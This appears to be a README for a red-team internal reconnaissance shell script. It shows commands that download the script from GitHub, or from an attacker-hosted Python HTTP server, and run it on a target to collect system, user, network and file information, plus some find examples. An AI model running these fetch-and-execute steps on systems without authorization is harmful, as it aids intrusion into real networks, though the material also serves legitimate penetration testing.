 # Internal Reconnaissance Phase

Definition...  

## Usage

From github:
```sh
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/internal-recon/internal-recon.sh
sh internal-recon.sh
```
Local network:
```sh
# Host
python -m SimpleHTTPServer 8000 #or
python3 -m http.server 8000
# Target
curl -LJO <Host>:8000/internal-recon.sh
sh internal-recon.sh
```

## Checks

Script collecting information about:  

- System
- Network
- User & groups
- Jobs/tasks
- Services/processes
- Software
- Interesting files
- Container

## Results

Results saved to current directory and printed to stdout.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems.

-----

## Additional Information

### Search files and directories in linux

Examples:
```
# search files and directories by keyword within "/" directory (case insensitive)
sudo find / -iname <keyword> 2>/dev/null

# search directories by keyword within "/" directory (case insensitive)
sudo find / -type d -iname some_directory 2>/dev/null

# search files with specific file extension within "/home" directory (case sensitive)
sudo find /home -type f -name "*.conf"

# search files with executable permission
sudo find /home -perm /a=x
```
